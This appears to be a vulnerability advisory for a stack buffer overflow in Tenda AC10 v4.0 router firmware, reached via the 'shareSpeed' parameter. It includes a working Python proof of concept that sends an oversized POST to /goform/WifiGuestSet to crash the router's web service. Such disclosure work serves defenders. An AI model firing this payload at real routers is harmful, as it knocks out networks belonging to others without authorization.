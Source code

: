 # Tenda Router Vulnerability on fromSetWifiGusetBasic function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `shareSpeed` parameter in the `fromSetWifiGusetBasic` function.

## Vulnerability Details

In function  `fromSetWifiGusetBasic`  line 30, it reads in a user-provided parameter  `shareSpeed` , and  it passed to the function `strcpy` without any length check, which may lead to overflow of the stack-based buffer `v10`. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![image-20231004155532591](assets/fromSetWifiGuestBasic_code.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
junk = '1'*500
data = 'shareSpeed=' + junk
response = requests.post(
    f'http://{ip}/goform/WifiGuestSet',
    headers=headers,
    data=data,
    verify=False,
)

```
